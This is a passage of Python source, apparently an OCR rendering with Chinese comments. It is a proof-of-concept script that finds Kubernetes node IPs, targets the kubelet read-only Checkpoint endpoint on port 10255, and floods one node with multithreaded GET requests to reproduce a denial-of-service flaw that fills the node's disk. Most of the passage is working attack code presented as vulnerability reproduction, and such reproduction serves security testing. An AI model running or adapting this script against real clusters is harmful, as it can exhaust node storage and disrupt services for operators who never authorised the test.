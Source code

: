 ```python
        return []
    node_ips = []
    for node in nodes:
        for addr in node.status.addresses:
            if addr.type == "InternalIP":
                node_ips.append(addr.address)
                break
    return node_ips

def send_requests(target_url, stop_time):
    """
    不断向目标 URL 发送 GET 请求直到达到停止时间
    """
    global request_counter
    while time.time() < stop_time:
        try:
            # 发送 GET 请求到 /checkpoint 接口
            r = requests.get(target_url, timeout=REQUEST_TIMEOUT)
            if r.status_code == 200:
                with counter_lock:
                    request_counter += 1
            else:
                # 返回非200也记录请求
                with counter_lock:
                    request_counter += 1
        except Exception as e:
            # 请求超时或失败时也继续尝试
            pass

def main():
    nodes = load_nodes()
    if not nodes:
        print("未能获取到 Kubernetes 节点信息，请确保 kubeconfig 正确且集群可访问。")
        return

    # 针对每个节点构造 kubelet 只读 HTTP 端口地址（默认端口 10255）
    # 这里假设受影响的节点开启了只读端口
    endpoints = []
    for ip in nodes:
        endpoint_url = f"http://{ip}:10255/checkpoint"
        endpoints.append(endpoint_url)
    print("检测到以下 kubelet Checkpoint API 终端地址:")
    for url in endpoints:
        print("  ", url)

    # 选择第一个节点作为复现目标进行 DoS 攻击测试
    target = endpoints[0]
    print(f"开始针对 {target} 模拟大量请求以复现 DoS 漏洞，测试时长 {TEST_DURATION} 秒...")

    stop_time = time.time() + TEST_DURATION
    threads = []
    for _ in range(NUM_THREADS):
        t = threading.Thread(target=send_requests, args=(target, stop_time))
        threads.append(t)
        t.start()

    # 等待所有线程结束
    for t in threads:
        t.join(timeout=TEST_DURATION + 10)

    print(f"测试结束，共尝试发送请求 {request_counter} 次。")
    print("请检查目标节点的磁盘使用情况，看是否由于大量 checkpoint 请求导致磁盘空间异常增长。")

```